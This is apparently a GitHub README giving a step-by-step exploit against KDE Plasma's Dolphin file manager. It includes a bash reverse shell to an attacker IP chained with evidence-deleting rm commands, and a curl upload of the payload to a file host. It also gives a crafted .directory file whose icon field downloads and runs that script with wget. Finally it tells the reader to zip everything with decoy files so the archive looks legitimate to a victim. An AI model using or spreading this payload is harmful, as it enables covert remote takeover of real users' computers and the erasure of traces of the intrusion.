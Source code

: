 # KDE-ARBITRARY-CODE-EXECUTION-AUTOCLEAN
KDE Plasma 4 & 5

First off you need to upload a .sh file with the following format
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1 | rm /home/$USER/Downloads/NAME_OF_EXTRACTED_FOLDER/.directory | rm /home/$USER/*.sh
```
I would suggest using https://0x0.st with the following command
```
curl -F'file=@FILENAME.sh' https://0x0.st
```
It will retun a link for your shell script.

Now wee need to make the payload named .directory to add to our .zip
```
[Dolphin]
Timestamp=2019,7,28,20,21,14
Version=4

[Desktop Entry]
Type=Directory
Icon[$e]=$(wget${IFS}https://0x0.st/FILENAME.sh&&/bin/bash${IFS}FILENAME.sh)
```
Replace FILENAME.sh with your 0x0.st file name

now save this as .directory, in a folder name of your choice, you should also add other things in it, to make it look legit.
then run
```
zip -r FOLDERNAME.zip FOLDERNAME
```
remeber this folders name needs to match the name of the folder in your shell script, or it will not rm the .directory file.
(NAME_OF_EXTRACTED_FOLDER)

What will happen, is when the user unzips this and has Dolphin file manager opened the Icon part will be executed, Which grabs and runs our .sh, which our .sh will connect to attacker server, and also rm the .directory file along with the .sh we grabbed, which will kind of hide what happened, but it will also keep multiple sessions from being started. 
